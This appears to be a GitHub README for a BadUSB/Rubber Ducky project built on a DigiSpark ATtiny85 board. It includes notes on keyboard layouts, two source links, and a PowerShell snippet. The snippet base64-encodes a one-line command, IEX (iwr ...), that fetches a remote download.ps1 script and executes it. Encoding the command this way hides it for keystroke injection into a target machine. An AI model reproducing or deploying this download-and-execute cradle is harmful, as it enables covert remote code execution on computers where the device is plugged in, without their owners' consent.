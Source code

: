 <h1>Bad USB</h1>
<p>This directory is for files directed to creating a BadUSB or RubberDucky.<br>
The scripts are written for the DigiSpark Attiny85 USB mini Arduino board.<br>
Code is added with the Arduino IDE.</p>


<h2>Info:</h2> 
<p>The USB writes directly to the keyboard, and the default is an American keyboard.<br>
Use this list below to use the equivalent Norwegian keyboard options.<br>
American Keyboard layout info<br><br>
@ = "<br>
- = /<br>
) = (<br>
( = *<br>
/ = &<br>
\ = =<br>
: = ><br>
; = < </p>

<h3>Sources:</h3>
<p>https://digistump.com/wiki/digispark/tutorials/connecting<br>
https://www.secjuice.com/how-to-build-a-low-cost-rubber-ducky/</p>

<h3>Encode Base64 command:</h3>
<p>$String = "IEX (iwr 'https://raw.githubusercontent.com/helfiesp/Security/main/BadUSB/download.ps1')"<br>
$bytes = [System.Text.Encoding]::Unicode.GetBytes($String)<br>
$encodedCommand = [System.Convert]::ToBase64String($bytes)<br>
Write-Host $encodedCommand</p>
